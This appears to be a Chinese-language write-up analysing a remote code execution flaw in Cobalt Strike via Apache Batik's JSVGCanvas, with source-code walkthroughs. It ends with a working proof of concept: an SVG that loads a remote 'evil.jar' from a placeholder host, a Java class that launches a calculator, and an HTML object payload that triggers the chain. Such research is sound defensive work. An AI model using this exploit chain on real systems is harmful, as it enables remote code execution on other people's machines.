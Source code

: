 ​	Apache Batik是一个开源的SVG工具包，它提供了一组Java类库，用于处理SVG文档、转换SVG文档为其他格式（如PNG、JPEG等）、显示SVG文档等。而org.apache.batik.swing.JSVGCanvas是一个Java Swing组件，用于显示和操作可缩放矢量图形（SVG）文件

​	<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401231755913.png" alt="JSVGCanvas类的setURI方法" style="zoom:50%;" />



​	1）JSVGCanvas类其中的setURI方法接受一个字符串类型参数var1。这个方法实际上是用来设置uri属性的。将uri属性设置为传递进来的var1参数。如果uri不为null，就调用loadSVGDocument方法加载传入的SVG文档。那这个setURI方法的可控输入就为SVG文档

​	2）而SVG文档是一种基于xml的矢量图形格式，用于描述二维图形和动画。它可以在各种设备和平台上显示，并且**可以通过CSS和JavaScript进行样式和交互控制**

​	3）虽然SVG文档支持JavaScript，**但这里Cobalt Strike环境不能执行JavaScript代码**，执行报错，分析在batik.bridge.BaseScriptingEnvironment.loadScripts函数，👇

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401231756440.png" alt="loadScripts类部分源码" style="zoom:50%;" />



**发现所需条件**：

(1)type需为application/java-archive

(2)String href = XLinkSupport.getXLinkHref(script);读取namespaceURL为http://www.w3.org/1999/xlink的href属性的内容，如果没读到，这里href的值为空字符串。

(3)getBaseURI()用来获取SVG数据源的URL，作为参数传给ParsedURL对象。

(4)checkCompatibleScriptURL：实际调用DefaultScriptSecurity方法，要求远程SVG文件和远程jar包地址host相同。

(5)DocumentJarClassLoader是URLClassLoader的封装，URLClassLoader的作用是加载远程jar包。第一个参数指定了远程jar包的地址，实际为创建ParsedURL对象时的第二个参数href，即xlink:href属性内容。

(6)远程jar包需包含META-INF/MANIFEST.MF文件，且其中Script-Handler的值为需要远程加载类的类名。

(7)getMainAttributes()方法返回该Jar文件的主清单文件的Attributes对象，getValue("Script-Handler")方法返回该Attributes对象中名为"Script-Handler"的属性的值，也就是类名，将其赋值给变量var13。

(8)变量var26将动态加载类var13，并实例化为ScriptHandler类型的对象。那么由于var13可控，那么我们就可以通过这种方式来构造远程代码执行

​	那么准备SVG文件：
```
<svg xmlns="http://www.w3.org/2000/svg"
    xmlns:xlink="http://www.w3.org/1999/xlink"
    version="1.0">
<script type="application/java-archive" xlink:href="http://xxx/evil.jar"/>
<text>xxx</text> </svg>
```
准备实现远程代码执行功能的恶意jar包，测试功能：针对不同系统弹出计算器，代码如下
```
import java.io.IOException;
public class Exp {
    public Exp() throws IOException {
        String os = System.getProperty("os.name").toLowerCase();
        if(os.indexOf("mac")>=0){
            Runtime.getRuntime().exec("open -na Calculator");
        }else if(os.indexOf("windows")>=0){
            Runtime.getRuntime().exec("calc.exe");
        }else {Runtime.getRuntime().exec("calc.exe");}}}
```
payload：
```
<html><object classid='org.apache.batik.swing.JSVGCanvas'><param name= 'URI' value='http://xxx/test.svg'>
```
